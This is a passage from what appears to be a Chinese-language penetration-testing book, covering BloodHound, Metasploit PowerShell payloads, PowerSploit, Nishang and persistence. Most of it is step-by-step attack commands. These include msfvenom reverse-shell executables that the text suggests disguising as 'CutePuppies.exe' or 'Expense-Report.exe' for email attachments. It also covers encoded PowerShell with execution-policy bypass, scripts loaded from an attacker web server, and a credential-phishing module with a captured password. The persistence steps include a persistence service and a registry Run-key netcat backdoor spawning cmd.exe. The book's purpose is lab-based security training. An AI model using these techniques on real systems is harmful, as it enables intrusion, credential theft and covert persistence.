- ➢  向 PowerShell 函数中添加凭据支持 - [`docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2`](https://docs.microsoft.com/en-us/powershell/scripting/learn/deep-dives/add-credentials-to-powershell-functions?view=powershell-7.2)
- ➢  将 PSCredential 保存到文件中 - [`stackoverflow.com/questions/40029235/save-pscredential-in-the-file`](https://stackoverflow.com/questions/40029235/save-pscredential-in-the-file)
- ➢  存储在 PSCredential 对象中的 PowerShell 载负载 - [`isc.sans.edu/forums/diary/Powershell+Payload+Stored+in+a+PSCredential+Object/26058/`](https://isc.sans.edu/forums/diary/Powershell+Payload+Stored+in+a+PSCredential+Object/26058/)
- ➢  解密 PSCredential 对象密码及其应用 - [`techramblers.blog/2020/04/08/decrypt-pscredential-object-password-and-its-applications/`](https://techramblers.blog/2020/04/08/decrypt-pscredential-object-password-and-its-applications/)
- ➢  使用 PowerShell 命令获取密码 ($credential) 在所有服务器上均无效吗？ [`social.microsoft.com/Forums/en-US/f49955f8-faf1-4bcd-a07e-db6827205c6a/retrive-password-credential-using-powershell-command-doest-work-in-all-server-?forum=Offtopic`](https://social.microsoft.com/Forums/en-US/f49955f8-faf1-4bcd-a07e-db6827205c6a/retrive-password-credential-using-powershell-command-doest-work-in-all-server-?forum=Offtopic)

## 第 30 章：BloodHound

**工具 GitHub:** [`github.com/BloodHoundAD/BloodHound`](https://github.com/BloodHoundAD/BloodHound)

**工具文档:** [`bloodhound.readthedocs.io/en/latest/index.html`](https://bloodhound.readthedocs.io/en/latest/index.html)

BloodHound 是一种基于图的工具，用于揭示活动目录（Active Directory）环境中的攻击路径。它使用 `Neo4j` 存储数据并提供了一个可视化 Web 界面。

### 工作原理

BloodHound 通过分析活动目录对象（如用户、组、计算机会话）之间的关系来识别攻击路径。它允许安全测试人员找到获取管理权限的路径。

### 使用 SharpHound 进行数据收集

要使用 BloodHound，必须先从目标环境中收集数据。这是通过 `SharpHound` 脚本实现的。

### 在 Windows 上使用 SharpHound

对于特权账户，请使用 `SharpHound.ps1` 脚本：

```powershell
# 使用 PowerShell 运行 ‘sharphound.ps1’脚本
Invoke-BloodHound
```

收集到的数据存储在 `.zip` 文件中。收集完成后，你可以在你的机器上启动 BloodHound，并将 zip 文件拖入界面中。

### 安装与首次使用

BloodHound 默认未安装，但在 Kali 仓库中可用。它需要 `Neo4j` 进行数据管理。

### 1. 安装 BloodHound 和 Neo4j

在你的 Kali Linux 系统上：

```bash
sudo apt install bloodhound
sudo neo4j console
```

### 2. 配置 Neo4j

启动 `Neo4j` 后，打开浏览器并导航至：

- URL：`http://localhost:7474`
- 使用默认凭据登录：`neo4j` / `neo4j`
- 在提示时输入新密码。

### 3. 启动 BloodHound

一旦 Neo4j 运行，打开一个新的终端并运行：

```bash
sudo bloodhound
```

使用用户名 `neo4j` 和你的新密码登录。最后，将收集到的 `.zip` 文件拖到 BloodHound 桌面上开始分析。


加载完成后，选择域名。这就是加载我们从 Windows 目标中收集的数据集所需要做的所有操作。现在已准备就绪，让我们来一些分析吧。

> ➢ 点击左上角的三条线“更多信息（More Info）”按钮

这将显示信息与分析（info & Analysis）菜单以及可用的内置查询。

如下所示：


查询对于红队和蓝队都非常有用。攻击团队运行的最常见查询之一是“通管理员的最短路径（Shortest path to admin）”。这将显示所有与域域管理员权限可能存在关系链接的账户。这些都是可能的利用点、横向移动和权限提升点。

让我们从列表中取一个并尝试一下。

我选择了：

> `JULIUS_COHEN@DOMAIN.LOCAL`

这个用户可能存在于你的 Windows 2019 服务器上，因为 BadBlood 会随机创建用户并分配权限。尽管它故意设置安全权限的方式非常糟糕，但我确信你会找到许多类似的用户，可以用于此示例。

> ➢ 右键点击用户并点击“设为起始节点（Set as Starting Node）”


> ➢ 现在，右键点击域管理员（Domain Admins）并点击“设为结束节点（Set as Ending Node）”


你现在有了从用户到域管理员的可能路径。

如下所示：


你可以沿着连接路径从一个 Active Directory 对象到下一个。如你所示，它带我们来到另一个组、几个用户，最后到达域控制器，最后到达域管理员组。仔细观察连接路径。每一个都是不同类型的关系，可以移动到路径中的下一层。上面示例中的第一次跳转是“通用所有（Generic All）”权限。

> ➢ 右键点击任何路径并点击“帮助（help）”。


点击帮助时，你将获得有关权限提升和横向移动的信息。

> ➢ “信息（Info）”标签页是可用技术的一般概述。


> ➢ “滥用信息（Abuse Info）”通常包含利用的逐步说明


在这种情况下，BloodHound 建议使用针对性的 kerberoast 攻击进行横向移动。诸如 `Impacket`、`PowerSploit` 和多个 C2 工具都具有执行 kerberoast 攻击的模块。同样很棒的是，BloodHound 还会告诉你某些攻击的可能成功率。例如，“CanPSRemote”是通往域管理员下一级的可能路径之一，但有一个说明指出这并不总是保证特权执行。


“安全考量（Opsec Considerations）”标签页也很有用。它提供了非常有用的安全提示。在这种情况下，警告“PowerShell v5 安全增强”具有日志记录和脚本阻止功能。它还通知你 `PSSession` 将在系统上生成登录事件。

## 结论

这只是对 BloodHound 的一个非常快速的概述，尽管我们在 C2 章节中会对其进行更多讨论。由于能够非常快速简单地查看 Windows 域安全布局，它对于红队和蓝队来说都是非常有用的工具。该工具还有许多我们没有触及的功能和能力。我强烈建议读者查看工具网站上的详尽文档。

## 资源与引用

> ➢ ¹`SharpHound` - [`bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html`](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)

> ➢ ²`WinPwn` - [`github.com/S3cur3Th1sSh1t/WinPwn`](https://github.com/S3cur3Th1sSh1t/WinPwn)

> ➢ ³ 窃取或伪造 Kerberos 票：Kerberoasting - [`attack.mitre.org/techniques/T1558/003/`](https://attack.mitre.org/techniques/T1558/003/)

# 第八部分 - 使用 PowerShell 进行渗透测试与后利用

### 第 31 章 Metasploit 与 PowerShell


你在 Metasploit 中拥有了一个 Windows 盒箱的远程 shell，但你能做什么呢？虽然 Metasploit 加载了许多功能、选项和大量的后模块（顺便说一下，这些都非常棒），但如果你想做一些更自定义的东西呢？比如，添加自定义弹窗甚至是语音，但你不知道如何用该程序的原生 Ruby 语言编程。使用 Windows 的 PowerShell 怎么样？在本节中，我们将学习如何使用 PowerShell（Windows 内置的脚本语言）执行后利用功能。

让我先说明，我不是一个程序员，所以请包涵。其次，我要感谢来自 [Room362.com](http://www.room362.com) 的 Mubix 在创建编码 PowerShell 脚本方面提供的帮助。Mubix 以他在 Hak5 上的“Metasploit Minute”培训而闻名，如果你想获得一些卓越的 Metasploit 指导，可以去看看。

本章的第一部分是比较旧的技术，更多是为了好玩。尽管我曾多次在 PwnP1 AOLA 上使用这些技术进行 DuckyScript 类型的攻击。几年前，我正与一位军事 IT 培训师讨论利用能力，我们产生了一个念头：如果当红队渗透测试期间机器被利用时，屏幕上弹出一个 Windows 错误消息，写着“咚，咚，尼奥（Knock, Knock Neo）”，那不是很酷吗？你知道《矩阵》电影中那句著名的台词——如果你能让计算机向目标口头地说出同样的话，那会有什么意思呢？如果我们还想在目标系统上弹出一张充满绿色文本的矩阵屏幕呢？我的意思是，那不也酷吗？嗯，通过 PowerShell，你可以做到！

## PowerShell 基础

Microsoft Windows 已经内置了 PowerShell (`powershell.exe`) 和集成脚本执行环境 (`powershell_ise`)：


你只需点击 Windows 开始按钮并在搜索栏中输入“PowerShell”，或从命令提示符运行 `PowerShell.exe`。当你执行该文件时，会打开一个如下所示的 PowerShell 命令提示符：


你可以输入任何 PowerShell 命令它都会运行，例如强制性的 `Write-Host ‘Hello World!’` 消息：

```
PS C:\Users\Dan> Write-Host 'Hello World!'
Hello World!
PS C:\Users\Dan>
```

这很可爱，而且作为第一个脚本是强制性的，但在图形窗口中会更好。如果我们想打开一个消息框，可以通过输入以下两个命令：

```bash
[System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms")
[System.Windows.Forms.MessageBox]::Show("Hello World!" , "Important Message" , 1)
```


这两个命令准备并调用了一个带有“Hello World”消息的 Windows 消息框。标题是“Important Message”，Windows 消息框样式为 1，这是一个简单的 OK 框。

## PowerShell - 让 Windows 与你对话

很多人并不知道，Windows 内置了文本转语音功能（我认为它是从 Windows Vista 开始的）。Windows 可以用电脑语音（Windows 7）或多种声音（Windows 8）读出给它的任何文本。

要尝试一下，在 PowerShell 中输入：

> ➢ `(New-Object -ComObject SAPI.SPVoice).Speak("Hello World!")`


在 Windows 10 中，你会立即听到一个声音说：“Hello World！”有时说出的与你输入的并不完全匹配。你可能需要对单词进行一些调整。不过现在的文本转语音已经好多了。

> *注意：你还可以使用“语音合成器”并更改默认声音，参见章节资源*

## 运行远程脚本

PowerShell 的魅力之处在于，当我们输入命令时，我们的 Windows 系统会执行它们。如果我们获得了 Windows 机器的远程 shell，理论上我们应该运行 PowerShell 命令并完全控制该 Windows 盒子！但有一个问题，默认情况下 Windows 不允许在管理员上下文中运行远程或批 PowerShell 命令。


让我们尝试上面的示例，但这次我们将把 `speak` 命令放入一个 `.ps1` PowerShell 批处理文件中。然后，我们将尝试用 PowerShell 运行该文件。

> ➢ 在 Windows 中，只需将你喜爱的“speak”命令保存为带有 `.ps1` 扩展名的文本文件，如下所示：


> ➢ 然后使用命令 `powershell -F speak.ps1` 运行该文件。

当你执行它时，会遇到一个错误信息 - “无法加载文件，因为此系统上禁用了脚本执行。”除非更改执行策略，否则 Windows 默认禁运行脚本。那么，我们能做什么呢？

直接绕过它怎么样？如果我们使用这条命令，它是可以的：

> ➢ `powershell.exe -executionpolicy bypass -file speak.ps1`

我们还可以使用此相同的命令从活跃的 `Meterpreter` shell 远程在 Windows 系统上运行 `PS1` 文件：


它会正常运行，太棒了！不过，当我们尝试通过 `Meterpreter` 远程运行单个命令时，会出现一个问题。

如果我们尝试从 `Meterpreter` shell 远程运行这条命令：

> ➢ `powershell.exe -executionpolicy bypass -command (New-Object -ComObject SAPI.SPVoice).Speak("Owh No I have been hacked by the North Koreans")`

我们将得到这条消息：


修复这个问题有一个方法。`Metasploit` 已经添加了额外的 PowerShell 支持来修复此问题，但让我们先介绍一种旧技术，因为它仍然非常有用。让 PowerShell 命令远程运行的旧技术是对它们进行加密。这也会使得在网络通信被拦截和分析时，解密变得稍微困难一些。

实现此点的最佳方法是使用 Mubix 的“Powershell Popups + Capture”文章中的技术：

[`www.room362.com/blog/2015/01/12/powershell-popups-plus-capture/`](http://www.room362.com/blog/2015/01/12/powershell-popups-plus-capture/)

你可以看到我们将遵循的逐步步骤。

1. ➢ 创建一个包含 PowerShell 命令的文本文件，我使用了类似这样的内容：

```powershell
$shell = New-Object -ComObject “Shell.Application”;
$shell.minimizeall();
Start-Sleep -s 2;
[System.Reflection.Assembly]::LoadWithPartialName(“System.Windows.Forms”);
[System.Windows.Forms.MessageBox]::Show(“Knock, knock, Neo.” , “Warning” , 2);
(New-Object -ComObject SAPI.SPVoice).Speak(“Knock Knock Neo, the Matrix has you!”);
mspaint c:\data\matrix.jpg;
```

2. ➢ 将其保存到 Kali 的根目录命名为 `power.txt`。

前两行允许脚本通过最小化所有打开的窗口来清除用户的屏幕。我们让脚本暂停几秒以达到戏剧效果。接下来的两行弹出一个 Windows（中止、重试、忽略）消息框，显示电影中的消息：“Knock, Knock Neo.” 

一旦用户点击消息按钮之一，脚本就会调用 Windows 内置的文本转语音功能，通过他们的扬声器读出消息。最后一条命令打开一个 Matrix `.jpg` 文件，我们需要先通过 `Meterpreter` upload 命令将其上传到系统。选一张充满屏幕的大图，Pixabay 有一些非常漂亮的图片！

我们需要获取文本文件并按照 Mubix 网站所示进行编码：

3. ➢ `cat power.txt | iconv --to-code UTF-16LE | base64`


4. ➢ 将该文本复制到文本编辑器（Mousepad）。我们需要移除文本中所有的回车符。完成后，整个文本应该适合在一行长文本内。

5. ➢ 随后在我们的远程 `Meterpreter` shell 中运行以下命令，加上来自 Mousepad 的编码文本流：

> ➢ `powershell -ep bypass -enc <粘贴编码后的文本>`


大功告成！在 Windows 系统上将弹出一个消息框，消息将通过他们的扬声器播放，并且 matrix 文件（如果你上传了的话）将显示：


在红队渗透测试中，另一个让这更具视觉说服力的步骤是使用 `Meterpreter` 内置的摄像头功能，先给坐在电脑前的远程用户拍照，将该图片上传到他们的系统以替换 `matrix.jpg`，然后运行命令发送来自“矩阵”的具个性化的消息！

## 转换为执行文件

我们可以使用 `Msfvenom` 和 PowerShell 将 PowerShell 脚本转换为 Windows 可执行文件：

```bash
msfvenom -p windows/exec CMD="powershell -ep bypass -W Hidden -enc [Encrypted PowerShell script]" -f exe -e x86/shikata_ga_nai -o /home/kali/Desktop/speak.exe
```

上面的命令使用 `Windows/Exec` Metasploit 模块将 PowerShell 命令转换为可执行文件。该文件被加密并保存到桌面，命名为 `speak.exe`：


当在 Windows 上执行该文件时，PowerShell 脚本将隐藏可见（`-W Hidden`），但其他行为与我们的远程攻击完全相同。现在它是独立的 `.exe` 格式了。

## 读者挑战

Knock, Knock Neo 脚本很有趣，但如果脚本能通过名字称呼用户会更具个性化。作为读者挑战，你能修改脚本以按名字称呼用户吗？我给你一个提示，一种方法是使用 `$env:username` 环境变量。

## 在 Mac 上的类似攻击

一段时间前我向一些朋友展示过这个，并很快被告知“买个 Mac 吧，它们安全得多”。所以，让我们看看在 Mac 上如何做类似的事情。使用“Web Delivery” 漏洞，将 Target type 设置为 Mac OS X，并将 payload 设置为 `payload/osx/x64/meterpreter/reverse_tcp`。最后，将 `LHOST` 设置为 `Kali_IP`，并 `Exploit`。


复制生成的脚本并在 Mac 上运行。获得远程 shell 后，连接到 `Meterpreter` 会话，然后输入：


> ➢ `sessions -I 1`
> ➢ `shell`
> ➢ `say "Knock, knock Neo. The Matrix has you"`
> ➢ `osascript -e 'tell app "System Events" to display dialog "Knock, knock, Neo."'`


你应该会在 Mac 上看到这个弹出窗口：


语音读出的也将通过他们的扬声器播放。Mac 有许多内置声音。你可以在 shell 中输入 `say -v ‘y’` 来查看完整列表：


然后你可以使用 `-v` 参数切换到不同的声音，然后输入你的消息。如果你安装了扩展声音，可以使用老派 Zarvox。

> ➢ `say -v "Zarvox" "Ex Ter Men Nate the Doctor"`

现在让我们切回 Windows，看看一个使用 PowerShell 的内置 post 模块。

## 获取 用户凭据（钓鱼）

Metasploit 模块创建：Wesley Neelen & Matt Nelson

`phish_windows_credentials` post 模块最近被添加到 Metasploit，它是如何利用 PowerShell 进行攻击的完美示例。它的工作原理是，一旦你有了远程 shell 连接，运行此模块并设置一个要监控的程序名称。一旦远程系统运行被监控的程序，该模块就会弹出登录凭据。当受害者输入凭据时，这些凭据会被存储供我们查看。

在此示例中，我们将在 Windows 10 目标上使用活跃的 Metasploit 会话。我们将 WordPad 设置为进程，这样当受害者启动 WordPad 时，屏幕上会出现一个登录提示请求凭据。输入的凭据将出现在我们的 Kali 系统上。

使用该 post 模块：

> ➢ `use post/windows/phish_windows_credentials`
> ➢ `set PROCESS <要监控的程序>`
> ➢ `set SESSION <要使用的会话号>`
> ➢ `run`

让我们来看看它的实际操作：

1. ➢ 将活跃的远程 `Meterpreter` 会话后台化（Web Delivery 效果很好）
2. ➢ 输入 `use post/windows/phish_windows_credentials`
3. ➢ 输入 `show options`:


4. ➢ 输入 `set process wordpad.exe`
5. ➢ 然后输入 `set session [Session_Number]`
6. ➢ 最后输入 `run`:


现在在 Windows 10 系统上，启动 WordPad。我们的 Kali 系统检测到 WordPad 已启动。它停止了 WordPad 的运行并弹出一个 Windows 安全登录框：


当用户输入凭据时，脚本会重启 WordPad，我们获取了他们的凭据：

```
> [*] New process detected: 3984 wordpad.exe
> [*] Killing the process and starting the popup script. Waiting on the user to fill in his credentials...
> [+] UserName             Domain                     Password
> ----------------------------------------------------------------------
> Dan                    DESKTOP-5MFL5M6         C4pt41n_4m4z1ng
```

## 结论

如所示，基于 PowerShell 的脚本攻击与 Metasploit 结合可以产生非常有趣的攻击向量。攻击者的想象力和其技能水平确实是实现目标效果的唯一限制因素。基于 PowerShell 的攻击正在不断发布。

防御此类攻击的最佳方法是：永远不要打开或运行电子邮件中意外的文件或附件。永远不要使用在公司随处丢弃的 USB 驱动盘。尽可能避免使用公共 Wi-Fi。始终在网络浏览器上使用脚本拦截程序。最后，网络安全监控至关重要，以便在最坏情况发生时能够检测并分析受损的内容。

## 资源与参考文献

- ➢ Speech-Week: 使用语音合成器使用不同的声音 - [`community.idera.com/database-tools/powershell/powertips/b/tips/posts/speech-week-using-different-voices-with-speech-synthesizer`](https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/speech-week-using-different-voices-with-speech-synthesizer)
- ➢ Windows PowerShell 1.0: [`technet.microsoft.com/en-us/library/hh848793.aspx`](https://technet.microsoft.com/en-us/library/hh848793.aspx)
- ➢ Powershell Popups + Capture: [`www.room362.com/blog/2015/01/12/powershell-popups-plus-capture/`](http://www.room362.com/blog/2015/01/12/powershell-popups-plus-capture/)
- ➢ Invoke-TwitterBot - Copyright (c) 2013, Chris Campbell (@obscuresec): [`github.com/obscuresec/shmoocon/blob/master/Invoke-TwitterBot`](https://github.com/obscuresec/shmoocon/blob/master/Invoke-TwitterBot)
- ➢ 使用 Metasploit 进行 Windows 凭据钓鱼: [`forsec.nl/2015/02/windows-credentials-phishing-using-metasploit/`](https://forsec.nl/2015/02/windows-credentials-phishing-using-metasploit/)

## 第 32 章：PowerShell 负载、PowerSploit 和 Nishang

在本章中，我们将介绍如何结合 PowerSploit 使用 Metasploit PowerShell 负载。我们还将查看如何使用 Nishang - 渗透测试工具。

### PowerShell 负载

- ➢ 模块创建者：Dave Hardy 和 Ben Turner
- ➢ 模块网站：[`www.nettitude.co.uk/interactive-powershell-session-via-metasploit/`](https://www.nettitude.co.uk/interactive-powershell-session-via-metasploit/)

### PowerSploit

- ➢ 项目创建者：Matt Graeber
- ➢ 项目网站：[`github.com/mattifestation/PowerSploit`](https://github.com/mattifestation/PowerSploit)

#### PowerSploit 简介

PowerSploit 是一组用于安全测试的优秀 PowerShell 脚本集合。在远程机器上运行 PowerShell 脚本的妙之处在于，它们通常不会接触磁盘（除非你将实际脚本下载到驱动器）。此外，PowerShell 脚本本身具有相当的反病毒绕过能力，因为大多数脚本在 Windows 服务上下文中执行，例如 PowerShell 服务。

PowerSploit 脚本可以在创建者的 GitHub 站点上找到，也预装在 Kali 的 `/usr/share/windows-resources/powersploit` 目录下：


通常情况下，你只需将脚本文件下载到目标机器、初始化并运行它们。我们将使用 Meterpreter 较新的 PowerShell 负载配合 PowerSploit 脚本，以便它们直接在内存中执行。首先，让我们快速查看 Meterpreter PowerShell 模块。

#### PowerShell 负载模块简介

我们在上一节中涵盖了如何通过 Meterpreter shell 运行加密的 PowerShell 命令。新的 PowerShell 负载模块提供了一种非常简单的方法，可以将 PowerShell 攻击集成到 Metasploit 中。


在这些 shell 发布之前，每当你通过 Meterpreter 与远程主机建立 PowerShell 会话时，你都会失去对 shell 的某些控制，并且看不到 PowerShell 命令的回显。为了绕过这一点，你需要对所有的 PowerShell 命令进行加密，并在单条命令中将它们通过 Meterpreter shell 传递。但有了这些新的 shell，你可以实时与 PowerShell 直接交互了！

让我们通过使用 Metasploit 的“网络交付（web delivery）”漏洞来查看它是如何工作的。

1. ➢ 启动 Metasploit
2. ➢ 使用 Web Delivery 漏洞和 `windows/x64/powershell_reverse_tcp` 负载：

3. ➢ 在你的 Windows 10 系统上复制并运行 PowerShell 命令

我们获得了一个会话：


注意会话类型为“Powershell”。

1. ➢ 连接到会话，`sessions -i 1`：


现在注意，我们不是在普通的命令提示符中，而是 Windows PowerShell 提示符中！我们可以直接在远程系统上运行任何 PowerShell 命令。可用命令取决于操作系统的版本。

```
> ➢ 输入，Get-Process
```


```
> ➢ 使用 Get-Eventlog system 查看系统事件
```


```
> ➢ 输入，Get-Command
```


现在注意，我们不是在普通的命令提示符中，而是 Windows PowerShell 提示符中！我们可以直接在远程系统上运行任何 PowerShell 命令。可用命令取决于操作系统的版本。

#### 使用 PowerSploit 脚本

在本节中，我们将学习如何设置负载以自动下载 PowerSploit 自带的脚本。我们通过在负载中设置 `LOAD_MODULES` 变量为要使用的 PowerShell 脚本的位置来实现。首先，我们需要通过将要使用的脚本复制到 Apache 目录并启动 Apache 来托管这些脚本。

```
/var/html
```


启动 Apache：

```
> ➢ sudo apache2 start
```

PowerSploit 现在托管我们的 Kali Web 服务器。我们现在可以直接通过 meterpreter 加载 PowerSploit 模块。我们可以通过 Metasploit 负载来实现此。

1. ➢ 继续输入 `exit` 以关闭活动 shell。
2. ➢ 输入，`set LOAD_MODULES http://[Kali_IP]/powersploit/Recon/Invoke-Portscan.ps1`
3. ➢ 输入 `re-run` 使用新设置再次运行漏洞。
4. ➢ 获取生成的 PowerShell 命令 并在 Windows 10 系统上运行它。

```
> ➢ 连接到新会话：
```


注意现在 PowerShell 提示符上方显示“正在加载模块（Loading modules）”。shell 自动下载了我们指定的 PowerShell 脚本。每个 PowerSploit shell 在文件中都包含描述和用法示例。只需查看文件即可它们是如何工作的。


这里是 Invoke-Portscan.ps1 脚本的示例用法之一：


现在模块已为我们自动下载了 Invoke-Portscan.ps1 文件，只需只需运行命令。让我们进行简单的端口扫描：

```
> ➢ Invoke-Portscan -Hosts 192.168.1.1 -T 4 -TopPorts 25 -oA localnet
```


如你上方截图所示，我们成功地让目标 Windows 系统扫描了另一台设备（在本例中为路由器）并返回了结果。这就是为什么攻击归因非常困难的原因之一；在现实世界中，扫描你的系统可能只是被黑客劫持的系统。真正的黑客可能位于另一个国家。花些时间尝试下载其他模块。你可以一次下载一个，也可以通过用逗号分隔来下载多个模块。

## Nishang - 用于渗透测试的 PowerShell

工具作者：Nikhil SamratAshok Mittal

工具 GitHub：[`github.com/samratashok/nishang`](https://github.com/samratashok/nishang)

Nishang 是另一组对渗透测试非常有用的 PowerShell 工具。Nishang 曾经默认安装在 Kali 中，但不再包含在默认安装中。你可以使用 `apt install nishang` 或直接从工具作者的 GitHub 站点 `git clone` 这些工具。这是一个非常有趣的工具集，你可以像我们已经涵盖过的那样使用它们。尽管如此，我们将只查看位于 `nishang/Gather/Get-Information.ps1` 的 `Get-Information` 脚本。

与 PowerSploit 示例一样，我们将 Nishang 文件夹复制到我们的 Kali Apache 服务器目录，然后使用 Metasploit PowerShell shell 将其下载到受害者机器上。

1. 将 Nishang 目录复制到 Kali  Web 服务器目录：


2. 启动 Metasploit 并配置 PowerShell payload 的 Web Delivery 利用程序：


3. 运行利用程序。

4. 复制生成的 PowerShell 命令并在 Windows 命令提示符中运行它，我们得到了远程会话：


我们现在有了到 Windows 10 机器的远程 PowerShell 会话。如你所见，它还为我们下载了 `Get-Information` 模块。现在我们需要做的就是运行它。

5. 输入，“Get-Information”

该模块返回了大量关于系统的信息，这里只是一个片段：

```
PS C:\Users\Dan>Get-Information

> Logged in users:
> C:\Windows\system32\config\systemprofile
> C:\Windows\ServiceProfiles\LocalService
> C:\Windows\ServiceProfiles\NetworkService
> C:\Users\Dan

> Installed Applications:
> 7-Zip 19.00
> Mozilla Firefox 89.02
> Microsoft Office Professional Plus 2016 - en-us
> VMware Tools
> Python 3.9.1 Core Interpreter (64-bit)
> Account Policy:
> Force user logoff how long after time expires?: Never
> Minimum password age (days): 0
> Maximum password age (days): 42
> Minimum password length: 0
> Length of password history maintained: None
> Connectivity settings
> ---------------------
> Number of SSIDs: 1
> SSID name: "pwned"
> Network type: Infrastructure
> Radio type: [ Any Radio Type ]
> Vendor extension: Not present
```

该脚本返回的许多信息对渗透人员非常有用。Nishang 提供了多个供使用的 PowerShell 脚本。我建议花时间阅读这些脚本，看看哪些脚本最适合你的需求。

## 作为直接利用程序的 PowerShell Payload

最后我想涵盖的内容是将 PowerShell Payload 直接作为利用程序。使用 Web Delivery 服务并手动将 PowerShell 代码复制到目标服务器对于学习或当你拥有目标系统的物理访问权限时很好，但在现实生活中并不实用。在 Msfvenom 章节中我们看到了如何将 PowerShell Payload 转换为 Windows 批文件，现在让我们看看如何将 PowerShell payload 转换为直接可执行文件。

>➢ 直接输入，`msfvenom -p windows/powershell_reverse_tcp LHOST=[Kali_IP] LPORT=4444 -f exe > evilPS.exe`


现在我们已经有了 `EvilPS.exe`，将其复制到 Windows 系统并运行它。在真实的渗透测试中，我们会给它一个更隐蔽的名字，如 `CutePuppies.exe` 或 `Expense-Report.exe`，并将其作为附件通过特殊的电子邮件发送。

启动 Metasploit 反向处理器来捕获入站会话：

```
➢ use exploit/multi/handler
➢ set LHOST [Kali_IP]
➢ set LPORT 4444
➢ set PAYLOAD windows/powershell_reverse_tcp
➢ exploit -j
```


一旦在 Windows 中运行 `EvilPS.exe` 文件，我们就得到了一个连接：


这有多简单？

## 结论

在本节中我们学习了如何使用 Metasploit 的 PowerShell payload 获取远程 Windows 机器的交互式 PowerShell 会话。我们还学习了如何使用 Kali 预装的一些 PowerShell 利用程序以及如何在加载时自动交付它们。最后，我们学习了如何将 PowerShell payload 转换为独立的 `.exe` 利用程序。

我们只涵盖了使用 PowerShell 脚本作为利用程序的基本功能。这类利用对于 Windows 安全和系统管理员来说是一个问题，因为它们伪装成合法脚本。Windows Defender 确实阻止许多此类利用脚本，但如果它们能够直接在内存中运行而不接触磁盘，它们仍然可能构成威胁。

我防御这些脚本的最佳设备是尽可能阻止入站附件，卸载旧版本的 PowerShell，启用 Windows PowerShell 审计与日志等。

## 第 33 章：维持访问

在本节中，我们将查看维持机器访问的几种方法。大多数命令控制（C2）框架都内置了持久化功能，而且非常容易使用。对于高级用户来说，查看模块中使用的代码始终是一项良好的习惯，这样你就可以手动执行这些技术。

你已经获取了系统的远程 shell，恭喜你！现在你希望能够回来。许多人认为这只是创建一些隐藏的 shell。持久化可以意味着多种含义。基本上，持久化就是对目标执行任何需要的操作，以便你在未来获得你想要的访问。

等待：
➢ 修改用户的访问权限
➢ 设置或更改权限
➢ 创建后门

这些大部分内容都是自言易明的。Meterpreter 提供了创建用户和启用服务的 payloads - Metasploit 搜索非常好用。虽然许多任务可以在你拥有访问权限时手动完成，但当你有多个目标时，运行模块更有意义。自动化是我们的朋友！


## Meterpreter 持久化

我在最新的操作系统（Windows 10, Server 2019）上运行其中一些脚本的结果不一。所以，让我们花点时间查看一种运行良好的后门类型持久化选项——Meterpreter Persistence Service。然后我们将查看创建后门的其他选项。

持久化脚本通常需要从提权账户中运行，你可能还会在运行之前将 Meterpreter 迁移到特权服务。要做到这一点，你需要从一个到 Windows 管理帐户的活动 meterpreter 会话开始，我们将使用 `getsystem` 命令将其提升到 NT 系统级。我们可以使用几种选项中的任何一个交付初始 Payload。在本例中，让我们使用 MSFVenom 创建 payload。然后我们将启动 Metasploit 来创建一个监听器服务。

### PAYLOAD

>➢ 在 Kali 中打开终端并输入：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali_IP] LPORT=4444 -f exe > cutepuppies.exe
```


这就是我们 Payload 所需的所有，现在让我们创建一个监听器。

### 监听器 (LISTENER)

> sudo msfdb init && msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_tcp
> set LHOST [Kali_IP]
> set LPORT 4444
> exploit


最后，在 Windows 目标上复制、粘贴并运行 Payload，`cutepuppies.exe`。

我们获得了一个 shell：


> ➢ 输入 `getsystem` 提升权限到系统级用户

你可以输入 `getuid` 或输入 `shell` 掉到 DOS shell，然后输入 `whoami` 查看你当前是什么种用户。


如果你进入了 shell，只需输入 `exit` 即可返回 Meterpreter 提示符。

你现在是“System”（系统）级用户，即 Windows 中权限最大的用户。


我们现在可以运行内置的 Metasploit 持久化命令。首先，输入 `background` 退出 Meterpreter 提示符并返回 MSF 提示符。

### Metasploit 持久化服务 (Metasploit Persistence Service)

我们将涵盖的选项是 Metasploit 持久化服务。它将在目标上创建一个服务，尝试重新连接到我们的 Kali 系统。

> use exploit/windows/local/persistence_service
> show options


你可以在这里更改任何想要的设置。更改 Kali 主机以便连接到不同的 Kali 系统或端口。如果你愿意，也可以将名称改为比随机文件名更可信的名字。我们真正只需要设置 Session 号并运行它即可！

> set SESSION 1
> exploit


如果你查看 Windows Server 上运行的服务，你会发现我们新建的持久化服务正在运行：


现在，我们可以随时通过使用 Metasploit 为后门启动监听服务来重新获取目标系统的访问权限。如果你想测试这一点，请退出 Metasploit 并重启 Windows Server。重新启动 Metasploit 并启动监听服务。一旦服务器启动，它应该会直接连接回 Kali 系统。


噢看！我们又变成 NT Authority System 了！

需要注意的是回拨时间。在渗透测试期间，你不希望将此值设置得太低，否则目标会不断尝试连接到你的系统。这更容易被识别为可疑流量。

### 移除持久化 (Removing Persistence)

运行脚本时会包含一个用于移除持久化脚本的 Metasploit RC 文件。只需运行生成的 `.rc` 文件即可。你也可以禁用该服务并手动删除文件。如果你已经在 Metasploit 中，运行 RC 文件非常简单。


它消失了：


### 通过注册表设置手动创建后门 (Manual Backdoor via Registry Settings)

我们也可以使用 Metasploit 上传自己的可执行文件，然后设置注册表来运行它。Kali 包含了你可以使用的 Windows 可执行文件，位于 `/usr/shar/windows-binaries` 目录：


如果你有一个旧系统，或者禁用了杀毒软件的系统，你可以上传 Windows Netcat (`nc.exe`) 作为后门并它自动运行。任何最新的杀毒软件都会拦截此，因此你需要使用不可检测的文件，或使用旧版本的 Windows。我在此示例中使用了一个 Windows 7 目标。我主要想让你看到这个过程，然后你可以根据喜意进行尝试。与上一个示例一样，我们需要在高权限会话中运行：


> upload /usr/share/windows-binaries/nc.exe c:\windows\system32\


将其添加到注册表：

> reg setval -k HKLM\software\microsoft\windows\currentversion\run -v netcat -d "c:\windows\system32\nc.exe -ldp 5555 -e cmd.exe"

然后你可以检查以确保设置正确：

> reg queryval -k HKLM\software\microsoft\windows\currentversion\run -v netcat


现在你只需要重启 Windows 系统，然后使用 Kali 中的 `nc` 程序连接到 Windows Netcat 程序：

> nc -nv <Target IP Address> <port>

